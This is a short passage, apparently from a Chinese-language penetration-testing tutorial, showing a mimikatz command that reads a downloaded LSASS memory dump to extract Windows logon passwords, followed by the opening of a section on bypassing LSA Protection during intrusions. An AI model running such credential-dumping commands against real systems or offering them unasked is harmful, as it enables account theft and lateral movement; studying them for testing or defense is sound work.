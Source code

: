 ![截图](17da9933f09c578b629e2cd173818d03.png)

3.然后将1.dmp下载到本地

```
mimikatz_2.1_64.exe "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

![截图](43d77c54b705d5bb95b8605d7d8d971d.png)

## Bypass LSA Protection

在渗透过程中，获得一台windows机器权限之后，很重要一个环节就是抓密码。 但是在使用mimikatz抓取系统账号密码时，有时运维人员会开启一些防护措施，导致mimikatz抓取失败或异常。 下面主要介绍bypass LSA Protection获取密码。

